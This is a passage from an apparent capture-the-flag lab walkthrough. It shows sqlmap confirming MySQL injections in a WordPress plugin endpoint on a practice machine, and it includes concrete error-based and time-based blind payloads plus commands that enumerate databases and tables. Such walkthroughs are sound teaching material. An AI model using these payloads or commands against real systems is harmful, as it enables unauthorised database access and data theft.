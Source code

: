         Type: error-based
        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: query=1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: query=1 AND (SELECT 4649 FROM (SELECT(SLEEP(5)))bNLz)
    ---
    [14:10:54] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 8 (jessie)
    web application technology: PHP 5.6.31, Apache 2.4.10
    back-end DBMS: MySQL >= 5.0
    [14:10:55] [INFO] fetched data logged to text files under '/home/oxdf/.local/share/sqlmap/output/enterprise.htb'
    

It finds three injections, boolean-based blind, error-based, and time-based
blind. Blind injections are always going to be slow, as they basically give
one bit character per query. I’ll look at how the injection works in Beyond
Root.

#### DB Enum

Start by listing the databases:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch --dbs
    ...[snip]...
    available databases [8]:
    [*] information_schema
    [*] joomla
    [*] joomladb
    [*] mysql
    [*] performance_schema
    [*] sys
    [*] wordpress
    [*] wordpressdb
    ...[snip]...
    

The wordpress DB has 12 tables:

    
    
    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress --tables
    ...[snip]...
    Database: wordpress              
    [12 tables]                                       
    +-----------------------+                
    | wp_commentmeta        |                         
    | wp_comments           |
    | wp_links              |
    | wp_options            |
    | wp_postmeta           |
    | wp_posts              |
    | wp_term_relationships |
    | wp_term_taxonomy      |
    | wp_termmeta           |
    | wp_terms              |
